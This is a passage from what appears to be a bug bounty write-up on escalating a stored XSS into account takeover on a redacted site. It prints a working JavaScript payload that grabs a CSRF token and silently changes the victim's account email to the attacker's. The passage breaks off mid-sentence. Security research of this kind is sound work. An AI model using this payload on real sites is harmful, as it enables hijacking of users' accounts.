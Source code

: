 The customer (via the triage team) responded that they felt with the CSP and cookie settings in place on the main site, it was not possible to escalate the stored XSS to any higher severity.

## Challenge Accepted!

Of course I considered this a challenge because I knew with the payload sitting in a `<script nonce>` context I should be able to craft any payload I want, exploiting this will be easy!

## Next Step: Building the ATO payload

I began to craft the best stored XSS ATO payload I could imagine. The payload performed the following tasks, which I tested in the dev console (F12) of a window I had open on the main site:

 * Grab the CSRF token for the user by making a `XMLHttpRequest` to the site's main page
 * Extract the CSRF token by parsing the HTML returned from the `fetch` call
 * Make an API call to change the email address on the account using `XMLHttpRequest`

Note that the [`connect-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src) in the CSP made it impossible to try to exfiltrate information from the page to an attacker domain using Javascript, therefore ATO (or similar behavior of CSRF was my option for an impactful payload here).

At this point the account can be taken by the attacker as they control the email address and can use the "forgot password" functionality to complete the takeover. The cookies (even `HttpOnly`) will be sent on the last request becasse the same-origin policy will allow them to be included (the XHR is originating from the correct domain, `www.redacted.com`).

As I imagine most of you are familiar with writing a payload of this type I won't get into details here, as it was pretty simple:
```js
function decodeHtml(html) {
    var txt = document.createElement("textarea");
    txt.innerHTML = html;
    return txt.value;
}
fetch("https://www.redacted.com/url/to/get/csrf/").then(r => r.text()).then(r => {
  csrf_token = /data-token="([^"]*)"/.exec(r)[1]
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://www.redacted.com/api/to/change/email", true);
  xhr.setRequestHeader("X-Csrf-Token", decodeHtml(csrf_token));
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.withCredentials = true;
  o=new Object(); ... other parameters ...  o.email='<my_email_address>';
  xhr.send(JSON.stringify(o));
})
```

I tested this in the Chrome dev console and confirmed it had the desired effect of ATO. Ready to go!

## Attempt 3: Rejection

I submitted the payload to the GraphQL API and it was looking good! No errors initially, but then I hit the stored XSS page itself and saw...
